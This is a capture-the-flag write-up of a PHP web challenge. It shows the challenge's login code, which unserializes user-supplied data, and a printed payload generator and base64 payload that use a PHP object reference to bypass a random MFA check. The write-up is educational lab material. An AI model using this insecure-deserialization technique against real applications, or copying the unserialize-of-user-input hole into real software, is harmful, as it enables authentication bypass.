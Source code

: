 ![alt text](1.png "Chall")

The challenge is a web challenge where the source code is known.

![alt text](2.png "Chall")

The website is a login form where you need to supply the username, password and the MFA token to get the flag.

This is the source code of the `index.php` file. The interesting part of this is that it takes user input and serializes it and supplies it to the User class.

```jsx
<?php

include 'class/User.php';

if (!empty($_POST))
{
	// serialise POST data for easy logging
	$loginAttempt = serialize((object)$_POST);

	// log access
	//Logger::log(Logger::SENSITIVE, 'Login attempt: ' . $loginAttempt);

	// Hand over to federation login
	// TODO currently just a mock up
	// TODO encrypt information to avoid loos of confidentiality
	header('Location: /?userdata=' . base64_encode($loginAttempt));
	die();
}

if (!empty($_GET) && isset($_GET['userdata']))
{
	// prepare notification data structure
	$notification = new stdClass();

	// check credentials & MFA
	try
	{
		$user = new User(base64_decode($_GET['userdata']));
		if ($user->verify())
		{
			$notification->type = 'success';
			$notification->text = 'Congratulations, your flag is: ' . file_get_contents('/flag.txt');
		}
		else
		{
			throw new InvalidArgumentException('Invalid credentials or MFA token value');
		}
	}
	catch (Exception $e)
	{
		$notification->type = 'danger';
		$notification->text = $e->getMessage();
	}
}

include 'template/home.html';
```

Checking the User.php file we see that we need to bypass three checks.

- Username check
- Password check
- MFA check.

```jsx
<?php

final class User
{
	private $userData;

	public function __construct($loginAttempt)
	{
		$this->userData = unserialize($loginAttempt);
		if (!$this->userData)
			throw new InvalidArgumentException('Unable to reconstruct user data');
	}

	private function verifyUsername()
	{
		return $this->userData->username === 'D0loresH4ze';
	}

	private function verifyPassword()
	{
		return password_verify($this->userData->password, '$2y$07$BCryptRequires22Chrcte/VlQH0piJtjXl.0t1XkA8pw9dMXTpOq');
	}

	private function verifyMFA()
	{
		$this->userData->_correctValue = random_int(1e10, 1e11 - 1);
		return (int)$this->userData->mfa === $this->userData->_correctValue;
	}
	
	public function verify()
	{
		if (!$this->verifyUsername())
			throw new InvalidArgumentException('Invalid username');

		if (!$this->verifyPassword())
			throw new InvalidArgumentException('Invalid password');

		if (!$this->verifyMFA())
			throw new InvalidArgumentException('Invalid MFA token value');

		return true;
	}

}
```

The first check is easy, set the username to `D0loresH4ze`.

A quick google search of the hash tells us that the password is `rasmuslerdorf`.

The third check is the MFA which is a bit harder to bypass.

```jsx
$this->userData->_correctValue = random_int(1e10, 1e11 - 1);
return (int)$this->userData->mfa === $this->userData->_correctValue;
```

We control both values, `$this->userData->_correctValue` and `$this->userData->mfa`.  Even if we control the `_correctValue`, the value is overwritten by a random number before the check.

Also the code is using `===` and a strict type cast to int for the `mfa`. This means type juggling is out of the equation..

How can we bypass the check? We can use a object reference to automatically set the mfa value based on the correctValue. This is done using the following syntax in PHP

```jsx
$user->mfa =& $user->_correctValue;
```

The final code to generate the payload is:

```jsx
class User
{
    public $username = "D0loresH4ze";
    public $password = "rasmuslerdorf";
    public $mfa = 13;
    public $_correctValue;
}

$user = new User();
//$user->_correctValue =& $user->_mfa;
$user->mfa =& $user->_correctValue;

echo base64_encode(serialize($user));
```

```jsx
Tzo0OiJVc2VyIjo0OntzOjg6InVzZXJuYW1lIjtzOjExOiJEMGxvcmVzSDR6ZSI7czo4OiJwYXNzd29yZCI7czoxMzoicmFzbXVzbGVyZG9yZiI7czozOiJtZmEiO2k6MTtzOjEzOiJfY29ycmVjdFZhbHVlIjtSOjQ7fQ==
```

![alt text](3.png "Chall")
